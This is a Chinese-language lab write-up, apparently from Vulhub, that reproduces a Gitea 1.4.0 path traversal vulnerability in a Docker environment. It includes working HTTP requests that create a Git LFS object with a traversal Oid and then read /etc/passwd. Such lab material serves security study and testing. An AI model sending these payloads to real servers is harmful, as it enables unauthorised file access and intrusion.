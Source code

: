 # Gitea 1.4.0 目录穿越导致命令执行漏洞

## 漏洞描述

Gitea是从gogs衍生出的一个开源项目，是一个类似于Github、Gitlab的多用户Git仓库管理平台。其1.4.0版本中有一处逻辑错误，导致未授权用户可以穿越目录，读写任意文件，最终导致执行任意命令。

参考链接：

- https://security.szurek.pl/gitea-1-4-0-unauthenticated-rce.html
- https://www.leavesongs.com/PENETRATION/gitea-remote-command-execution.html

## 环境搭建

Vulhub执行如下命令启动启动漏洞环境：

```
docker-compose up -d
```

环境启动后，访问`http://you-ip:3000`，将进入安装页面，填写管理员账号密码，并修改网站URL，其他的用默认配置安装即可。（不要修改端口号）

安装完成后，新建一个用户`test`，创建一个公开的仓库，随便添加点文件进去（比如使用选定的文件和模板初始化仓库）：

![image-20220223204543045](images/202202232045145.png)

然后，需要执行一次`docker-compose restart`重启gitea服务。（原因详见第二个参考链接）

> 如果不重启的话，session是存储在内存里的。只有第一次重启后，才会使用文件session，这一点需要注意。

## 漏洞复现

由于漏洞链整体利用比较复杂，我们只复现文件读取部分，剩余利用方法详见第二个参考链接。

打开gitea，找到刚才创建的公开项目，如`vulhub/repo`，发送如下数据包，添加一个Git LFS对象：

```
POST /test/repo.git/info/lfs/objects HTTP/1.1
Host: your-vps-ip:3000
Accept-Encoding: gzip, deflate
Accept: application/vnd.git-lfs+json
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 153

{
    "Oid": "....../../../etc/passwd",
    "Size": 1000000,
    "User" : "a",
    "Password" : "a",
    "Repo" : "a",
    "Authorization" : "a"
}
```

![image-20220223205223472](images/202202232052600.png)

然后，访问`http://your-ip:3000/vulhub/repo.git/info/lfs/objects/......%2F..%2F..%2Fetc%2Fpasswd/sth`，即可看到`/etc/passwd`已被成功读取：

```
GET /test/repo.git/info/lfs/objects/......%2F..%2F..%2Fetc%2Fpasswd/sth HTTP/1.1
Host: your-vps-ip:3000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20220223205318090](images/202202232053193.png)